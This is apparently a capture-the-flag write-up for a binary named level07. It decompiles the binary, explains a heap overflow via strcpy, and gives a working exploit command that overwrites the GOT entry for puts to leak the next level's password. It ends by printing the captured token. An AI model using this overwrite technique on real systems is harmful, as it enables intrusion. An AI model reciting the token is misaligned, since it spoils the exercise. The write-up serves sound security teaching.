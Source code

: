 # level07

1. Decompilation with Ghidra

    The binary contains a structure with heap allocation and buffer operations:

    ```c
    void main(int param_1, int param_2)
    {
        char **buffer1;
        char **buffer2;
        FILE *file;
        
        buffer1 = (char **)malloc(8);
        *buffer1 = (char *)malloc(4);
        buffer2 = (char **)malloc(8);
        *buffer2 = (char *)malloc(4);
        
        strcpy(*buffer1, *(char **)(param_2 + 4));  // argv[1]
        strcpy(*buffer2, *(char **)(param_2 + 8));  // argv[2]
        
        file = fopen("/home/user/level8/.pass", "r");
        fgets(c, 0x44, file);
        puts("~~");
        return;
    }
    ```

    ```c
    void m(void)
    {
        printf("%s - %d\n", c, time(NULL));
    }
    ```

2. Analysis of the vulnerability

    The vulnerability:
    - The function `m()` prints the password stored in global variable `c`.
    - Two heap allocations create a structure with pointers.
    - `strcpy(*buffer1, argv[1])` allows buffer overflow.
    - By overflowing the first buffer, we can overwrite the pointer in `buffer2`.
    - When `strcpy(*buffer2, argv[2])` is called, it writes to the address we control.
    - We can overwrite the GOT entry of `puts()` to redirect it to `m()`.

3. Finding the m() address and GOT entry

    Using gdb to find the `m()` address:

    ```bash
    gdb ./level7

    (gdb) info address m
    Symbol "m" is at 0x080484f4 in a file compiled without debugging.
    ```

    Finding the GOT address for `puts()`:

    ```bash
    objdump -R level7

    08049928 R_386_JUMP_SLOT   puts
    ```

4. Finding the offset

    We need to find the offset to overwrite the pointer in the heap structure.
    
    The first `malloc(8)` creates space for 2 pointers. The second `malloc(8)` follows.
    Testing with different padding sizes reveals that **20 bytes** are needed to reach
    the target pointer.

5. Exploitation

    Build the payload with two arguments:

    **First argument (argv[1])**: 20 bytes padding + GOT address of `puts()`
    - Padding: `"A" * 20`
    - Target: `0x08049928` (GOT entry for puts)
    - This overflows `*buffer1` and overwrites the pointer in `buffer2`

    **Second argument (argv[2])**: Address of `m()`
    - `0x080484f4` (address of m function)
    - This gets written to the GOT entry via the overwritten pointer

    ```bash
    ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    ```

    Execution flow:
    1. First `strcpy` overflows and overwrites `buffer2` pointer to `0x08049928` (GOT puts)
    2. Second `strcpy` writes `0x080484f4` (address of m) to GOT puts
    3. When `puts()` is called, it jumps to `m()` instead
    4. `m()` prints the password from global variable `c`

6. Token discovered

    The token is: `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`